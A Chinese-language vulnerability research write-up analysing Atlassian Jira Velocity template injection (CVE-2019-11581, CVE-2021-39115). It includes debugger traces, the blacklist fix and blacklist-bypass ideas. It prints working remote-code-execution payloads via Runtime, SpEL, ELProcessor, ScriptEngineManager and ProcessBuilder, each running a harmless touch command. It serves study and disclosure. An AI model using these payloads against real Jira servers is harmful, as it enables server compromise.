


Atlassian JIRA 服务器模板注入漏洞分析及挖掘

- - -

# Atlassian JIRA 服务器模板注入漏洞分析及挖掘

## 一、漏洞复现及修复

先围绕 CVE-2019-11581 漏洞展开。用 qq 搭建一个 smtp 服务器。记得把@qq.com 在用户名那边删去。

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515171906-11ed980c-d430-1.png)

然后把联系管理员表单开启：

[http://localhost:8080/secure/admin/EditApplicationProperties!default.jspa](http://localhost:8080/secure/admin/EditApplicationProperties!default.jspa)

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515171956-2fbd3248-d430-1.png)

但是后面看了一下，没有正确配置`SMTP`服务会抛出异常，但在连接`SMTP`服务之前漏洞已经触发了

2、poc

```plain
url 路径：/secure/ContactAdministrators!default.jspa 


$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('touch /tmp/success').waitFor()
```

因为我是 mac 的机器，所以使用 touch 创建一个文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172046-4d3b0f0c-d430-1.png)

[https://docs.atlassian.com/DAC/javadoc/opensymphony-webwork/1.4-atlassian-17/reference/webwork/action/ActionContext.html](https://docs.atlassian.com/DAC/javadoc/opensymphony-webwork/1.4-atlassian-17/reference/webwork/action/ActionContext.html)

atlassian 家族产品的技术文档，以 ActionContext 为例，是将 web 线程上下文注入进这个对象，

总的分发器 dispatcher 是叫做 JiraWebworkActionDispatcher，他分给到了一个通用分发器去做派发任务。

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172106-595c6736-d430-1.png)

一个分发器里面存在的一些变量，选中的那行就是上下文对象，到时候看看这个对象是在哪生成的，什么时候生成的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172123-63b42f5c-d430-1.png)

这里将获取或者设置属性的类叫做属性描述器，通过获取 action 类及其所有父类里面 String 类型的小写变量，get，set 方法，以及需要设置的变量属性放在一个描述器当中。

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172138-6c7c6f8c-d430-1.png)

往后看，这里第一个参数代表着我发送邮件的主题是`1`

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172157-77e0708a-d430-1.png)

对 action 赋值完毕就是执行这个 action 类

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172217-83b78af6-d430-1.png)

只要存在管理员账号并且不是失效状态的，就进入 sendMail，第二个箭头是模版渲染，漏洞的重点触发点就在这个函数上

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172234-8df061e6-d430-1.png)

流程走完后会有 schedulerqueuework 去唤醒发送邮件的任务

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172251-98304c02-d430-1.png)

进入`com.atlassian.jira.mail.builder.EmailRenderer#renderEmailBody`  
赋值的时候是将这些变量传入

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172653-285c346c-d431-1.png)

最终在 ast reference 中递归执行。看到第一百一十行，那里就是具体调用的链。

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172715-35202f0a-d431-1.png)

跟进来：

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172745-4751d5ca-d431-1.png)

可以看到方法在这里被反射调用。

## 二、疑问

### 1、为什么 subject 可以被当作模版来解析？

我们可以看到在制作 item 对象 (`com.atlassian.jira.mail.builder.EmailBuilder类`) 的时候，suubjectTemplate 就已经是 Fragment 类了。所以后面 fragment 会从 content 里面取字段来进行解析的。file 是按照文件的配置来进行解析，所以有个 path，如果我们改写这个 path 同样会存在模版注入的问题。

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172804-52bb9bc6-d431-1.png)

我们再把对 item 赋值的这行单独拎出来看：

```plain
MailQueueItem item = (new EmailBuilder(email, this.getMimeType(administrator), I18nBean.getLocaleFromUser(administrator))).withSubject(this.subject).withBodyFromFile(this.getTemplateDirectory(administrator) + "contactadministrator.vm").addParameters(velocityParams).renderLater();
```

可以看到我们是在什么时候进行的赋值，再 new 完一个`EmailBuilder`之后，进行了两次`withxxx`的操作，其实就是 set 操作完之后再将这个对象返回，达到继续跟方法的目的。我们从`withSubject`方法中间分开左右两边看，左边主要是对象的生成。右边就是赋值和创建`RenderingMailQueueItem`的开始。直接从后半部分开始说，这里`withSubject`方法的入参是我们在填写发件主题时候的 String 类型字符串`$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('touch /tmp/success').waitFor()`。`withBodyFromFile`就是配置加上一个字符串。

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172820-5bec150e-d431-1.png)

再看后面俩函数，赋值了一个 hashmap，并重新创建了一个对象

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172858-7295f450-d431-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172918-7e8328e6-d431-1.png)

### 2、如何从邮件 body 触发模版注入漏洞

这个漏洞的本质就是`CVE-2021-39115`，有兴趣的可以去看看，漏洞的成因是使用 Jira Administrator 权限去覆盖 vm 文件，并在 vm 文件当中填入 payload 完成漏洞的触发。

文件路径在`/jira/atlassian-jira-software-8.2.2-standalone/atlassian-jira/WEB-INF/classes/templates/email/html/includes/header.vm`，因为邮件服务的模版里面包含了这个文件，所以我们在文件中加入`CVE-2021-39115`的 poc 即可。然后随便发一封邮件，就可以触发 poc。

```plain
#set($SpelExpressionParser = $jirautils.loadComponent('org.springframework.expression.spel.standard.SpelExpressionParser',$i18n.getClass()))
    $SpelExpressionParser.parseRaw("T(java.lang.Runtime).getRuntime().exec('touch /tmp/success4')").getValue()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172933-87b23f56-d431-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515172953-936e0d02-d431-1.png)

### 3、为什么常规的 payload 不行

```plain
#set($x=$i18n.getClass())
    #set($rt=$x.class.forName('java.lang.Runtime'))
    #set($chr=$x.class.forName('java.lang.Character'))
    #set($str=$x.class.forName('java.lang.String'))
    #set($ex=$rt.getRuntime().exec('touch /tmp/success66'))   
    $ex.waitFor()
```

这个是 velocity 模版注入的常规 payload，但是如果我们把他放到 header.vm 文件当中去，可以发现无法触发这个 payload。然后我们去邮件看看

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515173010-9d8774d6-d431-1.png)

直接把断点下在这两行，然后顺着堆栈往上找：

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515173028-a8763af8-d431-1.png)

可以看到在这里面去寻找方法的时候，method 传入的是空，所以报错也是空指针异常。

向上再去找在哪里生成的这个空参数，并将这个空参数传入`com.atlassian.velocity.htmlsafe.introspection.ReturnValueAnnotator#getAnnotationsForMethod`函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515173049-b4efb0fc-d431-1.png)

一路往下跟，虽然缓存中是存在 Runtime 类的，但是在返回 Class 类的时候，调用 getClass() 方法返回 Class 类

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515173104-bda051a2-d431-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515173147-d731856e-d431-1.png)

所以在 Class 类中去寻找 getRuntime 方法是不可能的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515173204-e1cca6e8-d431-1.png)

用代码简述一下：

```plain
Class test = Runtime.class;
        System.out.println(test.getClass()); //返回 class java.lang.Class

        Class test = Runtime.class;
        System.out.println(test); //返回 class java.lang.Runtime

        Object test = Runtime.getRuntime();
        System.out.println(test.getClass()); ////返回 class java.lang.Runtime
```

所以当我们使用新生成的类的时候，缓存中只有 Class 类，所以在此情况下只有注入 Object Bean 对象才可以使用调用相应的方法。所以反射的基础知识引出来了，如何通过反射创建新的类事例。1、新 Object 对象的生成在模版注入里面通过类的 newInstance 可以。可惜 Runtime 的构造方法是私有的，只能通过 getRuntime 来获取实例对象。2、所以我们使用 Constructor 来获取构造器，并将访问的属性设置为 true。

```plain
通过反射创建新的类实例的两种方式：

Class.newInstance() 
Constructor.newInstance() 

所以 runtime 类我们可以改写成：
    #set($x=$i18n.getClass())
    #set($runcls=$x.class.forName("java.lang.Runtime"))
    #set($runcon=$runcls.getDeclaredConstructor())
    $runcon.setAccessible(true)
    $runcon.newInstance().exec("touch /tmp/successRt")
```

所以我们可以采用其他的方式进行注入，如 spel，因为 jira 是 tomcat 服务启动的，也可以采用 scriptengine 的方式。  
黑名单类

```plain
webwork.util.ValueStack,\
javax.el.ELProcessor,\
javax.script.ScriptEngineManager,\
java.lang.ProcessBuilder,\
javax.el.ImportHandler,\
javax.el.ELManager
```

这里列举了以上黑名单类在 vm 模版引擎中的利用

模版引擎的基本语法参考  
[https://www.cnblogs.com/daijun/p/6133430.html](https://www.cnblogs.com/daijun/p/6133430.html)

```plain
ELProcessor:
    #set($x=$i18n.getClass())
    #set($el=$x.class.forName("javax.el.ELProcessor").newInstance())
    $el.eval('Runtime.getRuntime().exec("touch /tmp/successELProcessor")')


ScriptEngineManager:
noshorn:
    #set($x=$i18n.getClass())
    #set($semcls=$x.class.forName("javax.script.ScriptEngineManager"))
    #set($sem=$semcls.newInstance())
    $sem.getEngineByName("noshorn").eval("java.lang.Runtime.getRuntime().exec('touch /tmp/successSEM\');")
javascript:
    #set($x=$i18n.getClass())
    #set($semcls=$x.class.forName("javax.script.ScriptEngineManager"))
    #set($sem=$semcls.newInstance())
    $sem.getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('touch /tmp/successSEM\');")


java.lang.ProcessBuilder:
我本来写的第一种方法，但是 newInstance 这里是不存在空的构造方法的。
    #set($x=$i18n.getClass())
    #set($pb=$x.class.forName("java.lang.ProcessBuilder").newInstance())  
    $pb.command("/bin/sh","-c","touch /tmp/successPB")
    $pb.start()

改进之后：
    #set($x=$i18n.getClass())
    #set($list=$x.class.forName("java.util.List"))
    #set($pbcls=$x.class.forName("java.lang.ProcessBuilder"))
    #set($pbcon=$pbcls.getDeclaredConstructor($list))
    #set($alistcls=$x.class.forName("java.util.ArrayList"))
    #set($arrtest=["/bin/sh","-c","touch /tmp/successPB"])
    #set($pb=$pbcon.newInstance($arrtest))
    $pb.start()


javax.el.ImportHandler:


javax.el.ELManager:
```

### 4、其他触发方式

甚至不需要在发送邮件的时候时候才能够触发模版引擎，测试的过程中一不小心断点没有 mute，在访问邮件发送的页面时，发现也是模版引擎渲染的。

于是我将 payload 放置在`atlassian-jira/WEB-INF/classes/templates/plugins/footer/footer.vm`里面，发现了这样有趣的事，我才意识到。在登陆页面的页脚也同样会触发。

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515173225-ee03ce32-d431-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515182533-5a8c51e4-d439-1.png)

```plain
execute:140, ASTMethod (org.apache.velocity.runtime.parser.node)
execute:262, ASTReference (org.apache.velocity.runtime.parser.node)
render:342, ASTReference (org.apache.velocity.runtime.parser.node)
render:336, SimpleNode (org.apache.velocity.runtime.parser.node)
render:1276, RuntimeInstance (org.apache.velocity.runtime)
evaluate:1215, RuntimeInstance (org.apache.velocity.runtime)
evaluate:1164, RuntimeInstance (org.apache.velocity.runtime)
evaluate:219, VelocityEngine (org.apache.velocity.app)
writeEncodedBodyForContent:86, DefaultVelocityManager (com.atlassian.velocity)
toWriterImpl:129, DefaultVelocityTemplatingEngine$DefaultRenderRequest (com.atlassian.jira.template.velocity)
asPlainText:108, DefaultVelocityTemplatingEngine$DefaultRenderRequest (com.atlassian.jira.template.velocity)
with:92, DefaultVelocityTemplatingEngine$DefaultRenderRequest$1 (com.atlassian.jira.template.velocity)
toString:77, DefaultVelocityTemplatingEngine$DefaultRenderRequest$StringRepresentation (com.atlassian.jira.template.velocity)
asPlainText:94, DefaultVelocityTemplatingEngine$DefaultRenderRequest (com.atlassian.jira.template.velocity)
getPlainText:90, JiraWebFragmentHelper (com.atlassian.jira.plugin.webfragment)
renderVelocityFragment:84, JiraWebFragmentHelper (com.atlassian.jira.plugin.webfragment)
getAccessKey:60, DefaultWebLink (com.atlassian.plugin.web.model)
getAccessKey:66, JiraWebLink (com.atlassian.jira.plugin.webfragment.model)
apply:329, DefaultWebInterfaceManager$WebItemConverter (com.atlassian.plugin.web)
apply:288, DefaultWebInterfaceManager$WebItemConverter (com.atlassian.plugin.web)
transform:785, Iterators$6 (com.google.common.collect)
next:47, TransformedIterator (com.google.common.collect)
addAll:358, Iterators (com.google.common.collect)
newArrayList:147, Lists (com.google.common.collect)
newArrayList:133, Lists (com.google.common.collect)
getDynamicWebItems:229, DefaultWebInterfaceManager (com.atlassian.plugin.web)
getDisplayableWebItems:212, DefaultWebInterfaceManager (com.atlassian.plugin.web)
getLinksForSection:120, DefaultSimpleLinkManager (com.atlassian.jira.plugin.webfragment)
access$701:28, ThreadLocalCachingSimpleLinkManager (com.atlassian.jira.plugin.webfragment)
load:149, ThreadLocalCachingSimpleLinkManager$3 (com.atlassian.jira.plugin.webfragment)
load:146, ThreadLocalCachingSimpleLinkManager$3 (com.atlassian.jira.plugin.webfragment)
loadFuture:3528, LocalCache$LoadingValueReference (com.google.common.cache)
loadSync:2277, LocalCache$Segment (com.google.common.cache)
lockedGetOrLoad:2154, LocalCache$Segment (com.google.common.cache)
get:2044, LocalCache$Segment (com.google.common.cache)
get:3952, LocalCache (com.google.common.cache)
getOrLoad:3974, LocalCache (com.google.common.cache)
get:4958, LocalCache$LocalLoadingCache (com.google.common.cache)
getUnchecked:4964, LocalCache$LocalLoadingCache (com.google.common.cache)
getLinksForSection:153, ThreadLocalCachingSimpleLinkManager (com.atlassian.jira.plugin.webfragment)
getLinksForSection:140, ThreadLocalCachingSimpleLinkManager (com.atlassian.jira.plugin.webfragment)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invoke:26, ContextClassLoaderSettingInvocationHandler (com.atlassian.plugin.util)
getLinksForSection:-1, $Proxy56 (com.sun.proxy)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeJoinpointUsingReflection:343, AopUtils (org.springframework.aop.support)
doInvoke:56, ServiceInvoker (org.eclipse.gemini.blueprint.service.importer.support.internal.aop)
invoke:60, ServiceInvoker (org.eclipse.gemini.blueprint.service.importer.support.internal.aop)
proceed:186, ReflectiveMethodInvocation (org.springframework.aop.framework)
doProceed:136, DelegatingIntroductionInterceptor (org.springframework.aop.support)
invoke:124, DelegatingIntroductionInterceptor (org.springframework.aop.support)
proceed:186, ReflectiveMethodInvocation (org.springframework.aop.framework)
invokeUnprivileged:70, ServiceTCCLInterceptor (org.eclipse.gemini.blueprint.service.util.internal.aop)
invoke:53, ServiceTCCLInterceptor (org.eclipse.gemini.blueprint.service.util.internal.aop)
proceed:186, ReflectiveMethodInvocation (org.springframework.aop.framework)
invoke:57, LocalBundleContextAdvice (org.eclipse.gemini.blueprint.service.importer.support)
proceed:186, ReflectiveMethodInvocation (org.springframework.aop.framework)
doProceed:136, DelegatingIntroductionInterceptor (org.springframework.aop.support)
invoke:124, DelegatingIntroductionInterceptor (org.springframework.aop.support)
proceed:186, ReflectiveMethodInvocation (org.springframework.aop.framework)
invoke:212, JdkDynamicAopProxy (org.springframework.aop.framework)
getLinksForSection:-1, $Proxy2028 (com.sun.proxy)
getContextMap:42, MainHeaderLinksContextProvider (com.atlassian.jira.plugin.headernav)
getHtml:134, DefaultWebPanelModuleDescriptor$ContextAwareWebPanel (com.atlassian.plugin.web.descriptors)
getHtml:51, ModernPluggableTopNavigation (com.atlassian.jira.plugin.headernav)
visit:354, HeaderFooterRendering$7 (com.atlassian.jira.plugin.navigation)
visit:346, HeaderFooterRendering$7 (com.atlassian.jira.plugin.navigation)
invokeModule:644, SafePluginPointAccess (com.atlassian.ozymandias)
visitPluginPointImpl:325, SafePluginPointAccess (com.atlassian.ozymandias)
descriptors:213, SafePluginPointAccess (com.atlassian.ozymandias)
includeTopNavigation:346, HeaderFooterRendering (com.atlassian.jira.plugin.navigation)
run:151, HeaderFooterRendering$1 (com.atlassian.jira.plugin.navigation)
runnable:404, SafePluginPointAccess (com.atlassian.ozymandias)
includeTopNavigation:148, HeaderFooterRendering (com.atlassian.jira.plugin.navigation)
_jspService:7, general_jsp (jsp.decorators)
service:71, HttpJspBase (org.apache.jasper.runtime)
service:733, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:39, IteratingFilterChain (com.atlassian.plugin.servlet.filter)
lambda$doFilter$0:57, DelegatingPluginFilter (com.atlassian.plugin.servlet.filter)
doFilter:-1, 926935556 (com.atlassian.plugin.servlet.filter.DelegatingPluginFilter$$Lambda$2456)
doFilter:55, HttpRequestMonitoringFilter (com.atlassian.diagnostics.internal.platform.monitor.http)
doFilter:62, DelegatingPluginFilter (com.atlassian.plugin.servlet.filter)
doFilter:37, IteratingFilterChain (com.atlassian.plugin.servlet.filter)
doFilter:55, ServletFilterModuleContainerFilter (com.atlassian.plugin.servlet.filter)
doFilter:43, ServletFilterModuleContainerFilter (com.atlassian.plugin.servlet.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:39, IteratingFilterChain (com.atlassian.plugin.servlet.filter)
doFilter:55, ServletFilterModuleContainerFilter (com.atlassian.plugin.servlet.filter)
doFilter:43, ServletFilterModuleContainerFilter (com.atlassian.plugin.servlet.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
...
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:115, GzipFilter (com.atlassian.gzipfilter)
doFilter:92, GzipFilter (com.atlassian.gzipfilter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:201, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:544, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:206, StuckThreadDetectionValve (org.apache.catalina.valves)
invoke:143, StandardHostValve (org.apache.catalina.core)
invoke:81, ErrorReportValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
invoke:698, AbstractAccessLogValve (org.apache.catalina.valves)
service:364, CoyoteAdapter (org.apache.catalina.connector)
service:616, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:831, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1629, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1149, ThreadPoolExecutor (java.util.concurrent)
run:624, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:748, Thread (java.lang)
```

soy 文件解析对应 vm 的模版。

```plain
<ul class="atlassian-footer">
    <li>
        Atlassian Jira <a class="seo-link" rel="nofollow" href="https://www.atlassian.com/software/jira">Project Management Software</a>
                                            <span id="footer-build-information">(v8.17.0#817000-<span title='a507a62ee263f31d253569e578e747c4fedadad0' data-commit-id='a507a62ee263f31d253569e578e747c4fedadad0}'>sha1:a507a62</span>)</span>
    </li>
    <li>
        <a id="about-link" rel="nofollow" href="/secure/AboutPage.jspa/secure/AboutPage.jspa">About Jira</a>
    </li>
    <li>
        <a id="footer-report-problem-link" rel="nofollow" href="/secure/ContactAdministrators!default.jspa">Report a problem</a>
    </li>
</ul>
```

### 5、如何限制类（Jira 的修复方式）

先上结论就是：jira 在处理 velocity 的时候，会先生成类，但是在调用类的方法的时候，会校验该类是不是在黑名单中，如果是，那么这个方法就无法被调用了。

调用栈：

```plain
getMethod:183, UberspectImpl (org.apache.velocity.util.introspection)
getMethod:123, AnnotationBoxingUberspect (com.atlassian.velocity.htmlsafe.introspection)
execute:192, ASTMethod (org.apache.velocity.runtime.parser.node)
execute:262, ASTReference (org.apache.velocity.runtime.parser.node)
render:342, ASTReference (org.apache.velocity.runtime.parser.node)
render:72, ASTBlock (org.apache.velocity.runtime.parser.node)
render:87, ASTIfStatement (org.apache.velocity.runtime.parser.node)
render:336, SimpleNode (org.apache.velocity.runtime.parser.node)
merge:328, Template (org.apache.velocity)
merge:235, Template (org.apache.velocity)
mergeTemplate:381, VelocityEngine (org.apache.velocity.app)
writeEncodedBodyImpl:117, DefaultVelocityManager (com.atlassian.velocity)
writeEncodedBody:97, DefaultVelocityManager (com.atlassian.velocity)
toWriterImpl:122, DefaultVelocityTemplatingEngine$DefaultRenderRequest (com.atlassian.jira.template.velocity)
asHtml:113, DefaultVelocityTemplatingEngine$DefaultRenderRequest (com.atlassian.jira.template.velocity)
writeHtml:127, AbstractJiraModuleDescriptor (com.atlassian.jira.plugin)
getHtml:106, AbstractJiraModuleDescriptor (com.atlassian.jira.plugin)
getFooterHtml:60, FooterModuleDescriptorImpl (com.atlassian.jira.plugin.navigation)
getFullFooterHtml:22, DefaultPluggableFooter (com.atlassian.jira.plugin.navigation)
visit:377, HeaderFooterRendering$8 (com.atlassian.jira.plugin.navigation)
visit:373, HeaderFooterRendering$8 (com.atlassian.jira.plugin.navigation)
invokeModule:644, SafePluginPointAccess (com.atlassian.ozymandias)
visitPluginPointImpl:325, SafePluginPointAccess (com.atlassian.ozymandias)
descriptors:213, SafePluginPointAccess (com.atlassian.ozymandias)
includeFootersOnPage:373, HeaderFooterRendering (com.atlassian.jira.plugin.navigation)
access$000:50, HeaderFooterRendering (com.atlassian.jira.plugin.navigation)
run:177, HeaderFooterRendering$3 (com.atlassian.jira.plugin.navigation)
runnable:404, SafePluginPointAccess (com.atlassian.ozymandias)
includeFooters:173, HeaderFooterRendering (com.atlassian.jira.plugin.navigation)
_jspService:6, general_002dbody_002dpost_jsp (jsp.decorators)
service:71, HttpJspBase (org.apache.jasper.runtime)
service:733, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
...
```

在这个方法`org.apache.velocity.util.introspection.UberspectImpl#getMethod`，该类内部的内省器在生成的时候，从配置文件中读取，并将这些数据填入到 list 当中。如果存在黑名单中的类，则返回空方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515173251-fd5a08f6-d431-1.png)

我们跟进 getMethod，直到`org.apache.velocity.util.introspection.SecureIntrospectorImpl#checkObjectExecutePermission`，可以看到这里把一维数组也过滤了，然后这个类如果属于黑名单类的包，也会被拒绝生成 method。

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515173312-0a4d840c-d432-1.png)

## 三、漏洞挖掘

两种思路：1、二维数组 2、绕过黑名单  
之前提到只限制了一维数组，那么是不是可以用二维数组呢？当我写好了之后，放入调试，看到封杀了我二维数组的想法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515190224-80181f42-d43e-1.png)

所以这种方法也不可行。

到最后使用的是黑名单绕过的方式：

模版注入个人感觉是有点类似 jspwebshell 的方式，因为都是在文件中写你需要的内容 所以在这点上面是可以借鉴思路的。

[https://github.com/threedr3am/JSP-Webshells](https://github.com/threedr3am/JSP-Webshells)

从三梦师傅中的 jspwebshell，个人引申出了以下几种思路

```plain
1、命令执行类 ProcessImpl ProcessBuilder Runtime MethodAccessor 这些
2、表达式类 elprocess scriptengine 这些
3、jndi\rmi 通过恶意服务器执行 JdbcRowSetImpl
4、反序列化相关的类 
5、自定义类 利用 classloader 技术（可以分为继承自 ClassLoader 的 也可以是引用的像 Utils 这类）
6、
```

所以在 jira 里，所以只要类不在黑名单里，就有利用面。为此我也向 jira 提交了几个类，并成功申请了 cnvd。感兴趣的小伙伴可以看看 4.17.0 版本之后黑名单内新加了什么类。

其实在模版注入的问题中，context 上下文里面的对象也非常重要，可以看看下面一个小栏。

## 四、为什么可以使用 i18n 和 jirautils

显而易见的从 context 对象中获取的这些基础类，导致这些类不用像其他的模版注入那样，先 getclass 之后再 newInstance 来获取类并完成对象初始化的创建。

所以，这些类肯定是在之前注入到 context 容器当中的，发现步骤还挺多的。简述一下先注入 i18n 这个对象。具体细节可以看代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515182240-f37b3b00-d438-1.png)

也就是最后一行 return 的代码，帮助我们注入了 jirautils。从 statingParams 读取并初始化再注入对象。

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515182223-e93fde5c-d438-1.png)

进入`com.atlassian.jira.mail.JiraMailQueueUtils#getContextParamsMaster`，可以看到类的初始化把 jirautils 放入了 Master 中。

[](https://xzfile.aliyuncs.com/media/upload/picture/20220515182201-dbb17c32-d438-1.png)
